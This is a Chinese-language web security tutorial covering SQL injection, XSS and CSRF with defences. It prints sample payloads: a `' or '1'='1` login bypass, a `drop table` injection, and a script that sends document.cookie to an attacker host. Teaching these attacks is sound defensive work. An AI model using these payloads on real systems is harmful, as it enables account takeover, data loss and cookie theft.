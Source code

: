 # 攻击及防御

## SQL注入（SQL Injection）
攻击者把SQL命令插入到Web表单的输入域或页面请求的字符串，服务器使用参数构建数据库SQL命令时，恶意SQL被一起构造，并在数据库中执行。

在某些表单中，用户输入的内容直接用来构造（或者影响）动态SQL命令，或作为存储过程的输入参数，这类表单特别容易受到SQL注入式攻击。

`' or '1'= '1`是最常见的sql注入攻击。

比如在登录页面中输入的内容直接用来构造动态的SQL命令，或者直接用作存储过程的参数：
```sql
SELECT * from Users WHERE login = '$username' AND password = '$password';
```

当攻击者输入的内容为`' or '1'= '1`时，得到的SQL命令变成：
```sql
SELECT * from Users WHERE login = '' or '1'='1' AND password = '' or '1'='1'；
```
这个时候1=1是成立，自然就跳过验证了。

但是如果再严重一点，密码输如的是';drop table user;--，那么sql命令为：
```sql
SELECT * from Users WHERE login = '' or '1'='1' AND password = '';drop table user;--'
```

防范：
1. 绑定变量，使用预处理语句，如PDO或MySQLi的`prepare()`
2. 过滤特殊符号，对参数进行转义，如PHP的`addslashes()`和`str_replace()`
3. 检查变量数据类型和格式

## 跨网站脚本攻击(Cross Site Scripting, XSS)
指攻击者在网页中嵌入恶意脚本程序，其他用户在加载网页时就会执行代码，攻击者可能得到包括但不限于更高的权限（如执行一些操作）、私密网页内容、会话和cookie等各种内容。这些恶意代码通常是JavaScript、HTML以及其他客户端脚本语言。

攻击者在网站发表评论：
```html
<script>window.open(“www.gongji.com?param=”+document.cookie)</script>
```
如果没有对输入内容进行处理，直接存储到数据库，当其他用户访问到此评论时，浏览器执行了这段脚本，就会把该用户的cookie发送到攻击者的服务器了。

防范：
1. 将输入的数据进行转义处理，将特殊字符转换成HTML编码，过滤输出的变量，比如将`<`转义成`&lt`，PHP可使用函数`htmlspecialchars()`

## 跨网站请求伪造攻击(Cross Site Request Forgeries, CSRF)

通过伪装成受信任的用户，以合法的用户的身份进行非法操作。

通俗的讲就是说我访问了A网站，然后cookie存在了浏览器，然后我又访问了一个流氓网站，不小心点了流氓网站一个链接（向A发送请求），这个时候流氓网站利用了我的身份对A进行了访问。

攻击者盗用你的身份，以你的名义向第三方网站发送恶意请求。CRSF能做的事情包括利用你的身份发邮件，发短信，进行交易转账，甚至盗取账号信息。

攻击者伪造目标用户的HTTP请求，然后此请求发送到有CSRF漏洞的网站，网站执行此请求后，引发跨站请求伪造攻击。

攻击者利用隐蔽的HTTP连接，让目标用户在不注意的情况下单击这个链接，由于是用户自己点击的，而他又是合法用户拥有合法权限，所以目标用户能够在网站内执行特定的HTTP链接，从而达到攻击者的目的。
